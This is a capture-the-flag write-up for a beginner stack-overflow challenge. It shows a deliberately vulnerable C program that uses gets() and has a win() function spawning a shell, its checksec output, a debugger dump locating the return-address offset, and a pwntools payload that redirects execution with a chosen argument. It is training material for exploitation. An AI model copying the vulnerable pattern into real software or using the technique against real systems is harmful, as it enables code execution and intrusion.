

# Intro 3

Again, we have source code and the binary

main.c:
```
#include <stdlib.h>
#include <stdio.h>

void win(unsigned int x){
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
}

void vuln(){
    char buf[24];
    gets(buf);
}

int main(){
    puts("Level 3: Args too?\n");
    vuln();
    return 0;
}
```

checksec:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Okay. Same idea as before but this time the win function has arguments

So we need to overflow the buffer, jump to win and ensure "x" is equal to 0xdeadbeef

Using the same method as intro2. we can find the offset for EIP is 36
```
 EAX  0xffffd698 ◂— 0x61616161 ('aaaa')
 EBX  0x61616168 ('haaa')
 ECX  0xf7f9e580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0x61616169 ('iaaa')
 ESP  0xffffd6c0 ◂— 'kaaalaa...'
 EIP  0x6161616a ('jaaa')
 ```
 
Again no PIE means we know the address of win so our payload will look like this:

payload = junk * 36 + win() + padding * 4 + 0xdeadbeef

```
OFFSET = 36
payload = OFFSET * b'A'
payload += p32(elf.symbols['win'])
payload += b"\x00" * 4
payload += p32(0xdeadbeef)

io.sendline(payload)
io.interactive()
```




